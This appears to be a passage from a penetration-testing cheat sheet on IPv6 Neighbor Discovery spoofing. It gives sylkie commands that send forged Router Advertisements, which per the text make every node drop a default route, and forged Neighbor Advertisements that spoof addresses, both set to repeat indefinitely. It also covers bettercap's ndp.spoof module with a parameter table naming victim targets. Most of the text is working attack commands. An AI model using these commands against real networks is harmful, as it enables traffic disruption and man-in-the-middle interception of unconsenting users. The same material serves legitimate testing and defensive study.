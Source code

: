 ```
sylkie ra -i ens3 \
--target-mac 52:54:00:e3:f4:06 \
--router-ip fe80::b95b:ee1:cafe:9720 \
--prefix 64 \
--repeat -1 \
--timeout 10
```

This would send a “forged” Router Advertisement to the link local scope all-nodes address ff02::1 causing all of the nodes to remove fe80::b95b:ee1:cafe:9720/64 (link-layer address 52:54:00:e3:f4:06) from their list of default routes.

### Address spoofing (Neighbor Advert)

The basic usage of the sylkie neighbor advert command is listed below. This command will send a forged Neighbor Advertisement message to the given ip

```
sylkie na -i <interface> \
--dst-mac <dest hw addr> \
--src-ip <source ip> \
--dst-ip <dest ip address> \
--target-ip <target ip address> \
--target-mac <target mac address> \
--timeout <time betweeen adverts> \
--repeat <number of times to send the request>
```

Neighbor Advert examples

```
sylkie na -i ens3 \
--dst-mac 52:54:00:e3:f4:06 \
--src-ip fe80::61ad:fda3:3032:f6f4 \
--dst-ip fe80::b95b:ee1:cafe:9720 \
--target-ip fe80::61ad:fda3:3032:f6f4 \
--target-mac 52:54:00:c2:a7:7c \
--repeat -1 \
--timeout 3
```

## Bettercap

NDP.SPOOF (IPV6)

This module performs IPv6 neighbor spoofing by sending crafted neighbor and router advertisement packets.

```
ndp.spoof on / off
```

#### Parameters <a href="#parameters" id="parameters"></a>

| parameter                 | default   | description                                                          |
| ------------------------- | --------- | -------------------------------------------------------------------- |
| `ndp.spoof.neighbour`     | `fe80::1` | Neighbour IPv6 address to spoof, clear to disable NA.                |
| `ndp.spoof.prefix`        | `d00d::`  | IPv6 prefix for router advertisements spoofing, clear to disable RA. |
| `ndp.spoof.prefix.length` | `64`      | IPv6 prefix length for router advertisements.                        |
| `ndp.spoof.targets`       | -         | Comma separated list of IPv6 victim addresses.                       |
